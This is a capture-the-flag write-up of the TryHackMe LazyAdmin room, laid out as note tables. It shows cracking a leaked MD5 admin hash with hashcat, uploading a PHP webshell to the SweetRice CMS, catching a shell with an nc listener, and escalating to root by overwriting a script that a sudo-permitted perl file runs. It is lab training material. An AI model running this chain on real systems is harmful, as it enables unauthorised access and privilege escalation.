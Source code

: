 TryHackMe LazyAdmin

Sonntag, 6. Dezember 2020

23:03

![lazyAdmin](/images/lazyAdmin.PNG "LazyAdmin")

Flags:
======

<table>
<thead>
<tr class="header">
<th>#</th>
<th>Found</th>
<th>Entry</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>User Flag</td>
<td>/home/itguy/user.txt</td>
<td>Port 88 - /content/as</td>
</tr>
<tr class="even">
<td>Root Flag</td>
<td>/root/root.txt</td>
<td>Port 88 - /content/as</td>
</tr>
</tbody>
</table>

 
=

Enumeration
===========

<table>
<thead>
<tr class="header">
<th>IP#1</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><table>
<thead>
<tr class="header">
<th>Port</th>
<th><blockquote>
<p>Service</p>
</blockquote></th>
<th><blockquote>
<p>Software/<br />
Version</p>
</blockquote></th>
<th><blockquote>
<p>Credentials</p>
</blockquote></th>
<th><blockquote>
<p>Done</p>
</blockquote></th>
<th><p>Flag/Step</p>
<p>Solution</p></th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>22</td>
<td>SSH</td>
<td>OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)</td>
<td><table>
<thead>
<tr class="header">
<th>Username</th>
<th>???</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Password</td>
<td>???</td>
</tr>
</tbody>
</table></td>
<td>yes</td>
<td> </td>
<td>Rabbit Hole </td>
</tr>
<tr class="even">
<td>80</td>
<td>HTTP</td>
<td>Apache httpd 2.4.18 ((Ubuntu))</td>
<td> </td>
<td>yes</td>
<td><p>User.txt</p>
<p>Root.txt</p></td>
<td> </td>
</tr>
</tbody>
</table></td>
</tr>
</tbody>
</table>

 

<table>
<thead>
<tr class="header">
<th>80</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><p>$gobuster dir -w /usr/share/wordlists/dirb/big.txt -u</p>
<table>
<thead>
<tr class="header">
<th>Path</th>
<th>Contents</th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>/content</td>
<td><p>[…]</p>
<p>Powered by Basic-CMS.ORG SweetRice.</p></td>
<td> </td>
</tr>
<tr class="even">
<td>/content/attachment/</td>
<td>Landing Plattform for upload</td>
<td> </td>
</tr>
<tr class="odd">
<td>/content/inc</td>
<td>SweetRice Source &amp; Binaries</td>
<td> </td>
</tr>
<tr class="even">
<td>/content/inc/mysql_backup</td>
<td><ol type="1">
<li><blockquote>
<p>$cat mysql_bakup_20191129023059-1.5.1.sql</p>
</blockquote></li>
</ol>
<ol start="2" type="1">
<li><blockquote>
<p>INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&amp;#039;s <br>Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\<br>"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"<strong>manager</strong><br>\\";s:6:\\"passwd\\";s:32:\\"<strong>42f749ade7f9e195bf475f37a44cafcb</strong>\\";s:5:\\"close\\";i:1;s:9:\\"close_tip<br>\\";s:454:\\"&lt;p&gt;Welcome to SweetRice - Thank your for install SweetRice as your website<br> management system.&lt;/p&gt;[…]</p>
</blockquote></li>
</ol>
<ol start="3" type="1">
<li><blockquote>
<p>$hashcat -a 0 -m 0 42f749ade7f9e195bf475f37a44cafcb /usr/share/wordlist/rockyou.txt</p>
</blockquote></li>
<li><blockquote>
<p>$hashcat --show</p>
</blockquote></li>
</ol>
<blockquote>
<p> </p>
<p>42f749ade7f9e195bf475f37a44cafcb:<strong>Password123</strong></p>
<p> </p>
</blockquote></td>
<td><table>
<thead>
<tr class="header">
<th>Username</th>
<th>manager</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Password</td>
<td>Password123</td>
</tr>
</tbody>
</table></td>
</tr>
<tr class="odd">
<td>/content/as</td>
<td><p>SweetRice Management Page</p>
<p> </p>
<ol type="1">
<li><blockquote>
<p>Login with credentials manager:Password123</p>
</blockquote></li>
<li><blockquote>
<p>Go to Media Center -&gt; Upload and upload custom webshell e.g shell.php</p>
</blockquote></li>
<li><blockquote>
<p>$nc -lvnp &lt;port&gt;</p>
</blockquote></li>
<li><blockquote>
<p>Start shell by clicking on the uploaded file or move to /content/attachment/&lt;uploadedFile&gt;</p>
</blockquote></li>
</ol>
<ol start="5" type="1">
<li><blockquote>
<p>$cat /home/itguy/user.txt</p>
</blockquote></li>
</ol>
<p> </p>
<p><strong>Privilege Escalation</strong></p>
<ol type="1">
<li><blockquote>
<p>$sudo -l</p>
</blockquote></li>
<li><blockquote>
<p>$cat /home/itguy/backup.pl</p>
</blockquote></li>
<li><blockquote>
<p>$echo "/bin/sh" &gt; /etc/copy.sh</p>
</blockquote></li>
<li><blockquote>
<p>$sudo perl /home/itguy/backup.pl</p>
</blockquote></li>
<li><blockquote>
<p>$cat /root/root.txt</p>
</blockquote></li>
</ol>
<blockquote>
<p> </p>
</blockquote></td>
<td><p>User.txt Flag</p>
<p>Root.txt Flag</p></td>
</tr>
<tr class="even">
<td> </td>
<td> </td>
<td> </td>
</tr>
</tbody>
</table></td>
</tr>
</tbody>
</table>

 

Users
=====

<table>
<thead>
<tr class="header">
<th>ID</th>
<th>Username</th>
<th>Password</th>
<th>Hash</th>
<th>Hash Algorithm</th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>-</td>
<td>manager</td>
<td>Password123</td>
<td>42f749ade7f9e195bf475f37a44cafcb</td>
<td><p>Possible algorithms: md5</p>
<p> </p></td>
<td>Administrator</td>
</tr>
</tbody>
</table>

 

**Legend**

<table>
<thead>
<tr class="header">
<th> </th>
<th><blockquote>
<p>Step Solution/Finding</p>
</blockquote></th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td> </td>
<td><blockquote>
<p>Rabbit Hole</p>
</blockquote></td>
</tr>
</tbody>
</table>
